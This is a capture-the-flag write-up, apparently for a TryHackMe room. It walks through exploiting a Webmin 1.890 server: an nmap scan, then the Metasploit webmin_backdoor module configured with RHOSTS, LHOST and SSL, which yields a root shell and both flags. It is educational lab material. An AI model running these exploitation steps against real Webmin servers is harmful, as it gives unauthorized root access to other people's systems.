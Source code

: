 # Source

author : R4yan/@R4yDev

first i started doing a nmap scan but not aggressive using the -T4 option

```
# Nmap 7.80 scan initiated Tue Sep  1 14:16:52 2020 as: nmap -sC -sV -oN nmap/scan -T4 10.10.223.83
Nmap scan report for 10.10.223.83
Host is up (2.0s latency).
Not shown: 998 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep  1 14:17:48 2020 -- 1 IP address (1 host up) scanned in 56.12 seconds
```
then i opened the browser and went to http://$IP:10000 and i found an error

![](https://i.imgur.com/WMGYYfK.png)

to fix this just change **http** to **https**

after i changed the protocol i got a login form

![](https://i.imgur.com/WYyafmO.png)

i searched an exploit for webmin 1.890 (the version was found in the nmap scan) and i found [this](https://www.exploit-db.com/exploits/47230) that requires metasploit, so start metasploit with ```msfconsole```
and search the exploit

![](https://i.imgur.com/3Xprvye.png)

the exploit is : **linux/http/webmin_backdoor**

set the RHSOTS option with the ip of the machine
```
set RHOSTS $IP
```
then get your local ip address by running ```ip addr``` and set it as LHOST
```
set LHOST $LIP
```
and before you run the exploit don't forget to set SSL option to true
```
set SSL true
```
now run the epxloit
```
exploit
```
and you got root shell, yea no need to priv esc
```
whoami
root
```
get user flag
```
ls /home
dark
cat /home/dark/user.txt
THM{S****************E}
```
get root flag
```
cat /root/root.txt
THM{U**************L}
```


